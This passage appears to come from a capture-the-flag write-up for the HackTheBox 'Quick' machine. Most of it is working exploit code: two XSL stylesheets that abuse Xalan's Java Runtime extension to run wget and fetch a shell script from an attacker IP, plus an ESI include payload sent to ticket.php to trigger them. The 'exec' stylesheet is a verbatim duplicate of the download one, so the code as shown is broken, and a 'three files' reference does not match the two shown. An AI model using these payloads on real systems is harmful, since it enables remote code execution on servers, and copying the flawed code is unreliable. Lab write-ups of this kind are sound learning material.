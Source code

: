 Now we can set up our malicious xsl's:

exploitdown.xsl:

```
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.xx.xx/shell.sh -O /tmp/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

exploitexec.xsl:

```
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.xx.xx/shell.sh -O /tmp/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

Now, we need to host these three files on our local webserver, and get to work!

We first need to send the following payload to http://quick.htb/ticket.php:

Note, the src= has to be something on the victim machine, or it will fail, as it's going through a proxy that can't seem to communicate outside of the machine:

```
<esi:include src="index.php" stylesheet="http://10.10.xx.xx/exploitdown.xsl">
</esi:include>
```
